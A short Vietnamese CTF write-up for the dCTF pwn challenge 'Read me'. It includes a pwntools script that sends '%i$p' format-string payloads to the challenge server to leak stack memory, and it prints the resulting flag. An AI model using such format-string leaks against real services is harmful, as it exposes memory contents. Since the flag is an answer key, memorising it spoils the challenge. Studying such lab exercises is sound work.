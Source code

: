 ![readme](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Read%20me/imgs/readme.png?raw=true)

Đây là 1 bài format string

![printaddr](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Read%20me/imgs/printaddr.png?raw=true)

```python
# xpl.py
from pwn import *

data_lst = []
for i in range(1, 15):
	r = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)
	r.sendline(f'%{i}$p')
	r.recvuntil("hello ")
	data_leak = r.recvline()[:-1]
	if(data_leak != b'(nil)'):
		data_lst.append(data_leak.decode())
for hexchar in data_lst:
	print(p64(int(hexchar, 16)))
```

Mình sẽ chạy nhiểu lần để leak dần từ stack. Cách này hiêu quả vs những bài giới hạn kí tự nhập vào. Ở đây mình chạy 14 lần là đc flag r![flag](https://github.com/vietd0x/VietAT16-Task_KCSC/blob/master/dCTF/pwn/Read%20me/imgs/flag.png?raw=true)

flag: `dctf{now_g0_r3ad_s0me_b00k5}`

